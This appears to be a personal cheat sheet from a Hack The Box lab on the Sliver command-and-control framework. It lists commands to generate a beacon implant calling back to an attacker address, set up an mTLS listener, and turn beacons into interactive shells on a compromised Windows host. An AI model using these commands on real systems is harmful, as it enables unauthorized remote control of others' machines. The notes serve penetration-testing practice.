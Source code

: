 # Sliver C2  
## Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
## Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

## Navigate  
### Beacons  
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
OR     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
### Sessions (interactive)    
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`    
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
  
Now we got an interactive session shell.    





